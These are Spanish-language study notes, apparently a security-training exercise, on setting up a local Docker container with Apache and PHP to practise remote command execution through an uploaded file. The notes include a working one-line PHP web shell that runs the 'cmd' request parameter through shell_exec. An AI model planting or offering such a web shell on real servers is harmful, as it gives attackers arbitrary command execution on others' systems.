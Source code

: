 Podemos crear un contenedor de Docker que tenga un servidor web que interprete php; y de esta forma practixar con la subida de un fichero php malicioso para obtener ejecución remota de comandos. Por tanto nos creamos el Dockerfile de docker para montar la imagen con todo lo necesario:
![[Mis apuntes/ANEXOS/Pasted image 20230417091451.png]]

A continuación ejecutamos el comando Docker Build para crear la imagen a partir de este Dockerfile:
![[Mis apuntes/ANEXOS/Pasted image 20230417091520.png]]

Y vemos que al ejecutarlo hay un punto donde nos pide la zona geográfica y se queda bloqueado:
![[Mis apuntes/ANEXOS/Pasted image 20230417091551.png]]

Aquí, si miramos por internet y usamos la IA, vemos que en el Dockerfile hay que poner un parámetro para corregir esto:
![[Mis apuntes/ANEXOS/Pasted image 20230417091626.png]]

Por tanto loa añadimos al Dockerfile:
![[Mis apuntes/ANEXOS/Pasted image 20230417092734.png]]

Ahora la instalación procederá correctamente al ejecutar el Docker Build. Por tanto ahora vamos a entrar dentro de este contenedor para exponer el puerto 80:
![[Mis apuntes/ANEXOS/Pasted image 20230417091928.png]]

Instalamos systemctl para arrancar el proceso de apache:
```bash
apt install systemctl
systemctl start apache2
```

Y ahora este contenedor que tiene expuesto el puerto 80 significa que si accedemos desde la máquina anfitrión al localhost, podremos acceder a la plantilla por defecto de apache:
![[Mis apuntes/ANEXOS/Pasted image 20230417093055.png]]

Ahora dentro del contenedor con nano pwned.php (por ejemplo), nos creamos un fichero php malicioso:
```php
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Y entonces así nos quedaría el directorio del servidor web:
![[Mis apuntes/ANEXOS/Pasted image 20230417093219.png]]

Esto significa que si dentro del servidor de apache llamamos a este archivo, vamos a acceder a él pudiendo ejecutar un comando:
![[Mis apuntes/ANEXOS/Pasted image 20230417093350.png]]



